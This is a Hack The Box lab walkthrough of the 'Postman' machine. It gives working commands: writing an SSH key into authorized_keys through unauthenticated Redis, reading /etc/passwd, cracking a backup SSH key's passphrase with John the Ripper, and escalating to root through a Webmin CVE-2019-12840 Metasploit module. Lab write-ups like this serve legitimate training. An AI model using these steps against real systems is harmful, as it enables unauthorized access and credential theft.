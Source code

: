 ```yaml
---
layout: walkthrough
title: Postman
description: HTB walkthrough
logo: /assets/img/walkthroughs/postman_logo.png
show-avatar: false
permalink: /walkthroughs/postman.html
OS: Linux
difficulty: Easy
release: 2 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/114053">TheCyberGeek</a>
cleared: 9 Nov 2019
publiished: 2019 11 09
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  8 21:44:03 2019 as: nmap -sC -sV -p- -Pn -oN nmapscan.txt 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.088s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  8 21:50:09 2019 -- 1 IP address (1 host up) scanned in 366.53 seconds

```

We see a number of open ports. Checking what is on port 80 with our browser doesn't show us much of interest

![Cyber Geek](/assets/img/walkthroughs/postman_webpage.png)

Checking searchsploit for webmin 1.910 we see that there is an RCE with root privileges as detailed by CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/

however that requires a credentialed user, which we don't have. If we turn our attention to the redis instance running on port 6379 tho, we see that if we can access it, it is vulnerable to this exploit

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

So lets check

```
root@kali:~/HTB/Boxes/Postman# telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
echo "HILBERT"
$7
HILBERT
```

Bingo! So our plan now is to try and write our SSH key onto the server and login. We need to add some whitespace to our key and then write that into Redis. We can use **redis-cli** for this. 

```
root@kali:~/HTB/Boxes/Postman# (echo -e "\n\n"; cat id_rsa_.pub echo -e "\n\n") > key.txt
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/HTB/Boxes/Postman# cat key.txt | redis-cli -h 10.10.10.160 -x set crackit
```

now we can logon to redis, and try and write our SSH key into a users .ssh folder. The default folder for redis is /var/lib/redis so if a .ssh folder has been created for redis user we can write to that.

```
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

looks like it has bee. Now lets SSH in

```
root@kali:~/HTB/Boxes/Postman# ssh -i id_rsa_ redis@10.10.10.160
<...>
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$                
```

First lets cat the /etc/passwd file so we can get the other users

```
redis@Postman:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<...>
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

 We don't have write access to /home/Matt/.ssh unfortunately so we can't duplicate our previous exploit to gain access to user Matt. Enumerating the machine further we find a backup of an SSH key.

```
redis@Postman:~$ ls /opt
id_rsa.bak
```

Lets copy this, and see if we can crack the password on it. To do this we will use a program called John the Ripper. First we need to convert the key into a suitable format. For this we will use **ssh2john**, then we can run john the ripper on it with a wordlist to try and crack it.

```
root@kali:~/HTB/Boxes/Postman# python /usr/share/john/ssh2john.py id_rsa.bak > id_rsa.hash
root@kali:~/HTB/Boxes/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:12 DONE (2019-11-12 00:48) 0.07710g/s 1105Kp/s 1105Kc/s 1105KC/sa6_123..*7¡Vamos!
Session completed
```

We cracked the password, which is "computer2008". Let's see if we can login to Matt with this

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cat /home/Matt/user.txt
517adXXXXXXXXXXXXXXXXXX08a2f3c
```

Success! We will also find that we can login to webmin on port 10000 with Matt:computer2008

<h3 align="center">On To Root</h3>

So now with valid credentials we can use CVE-2019-12840 which has a metasploit module. Make sure to set SSL to true as port 10000 is using https

![root](/assets/img/walkthroughs/postman_root.png)

we can now access the root.txt flag.
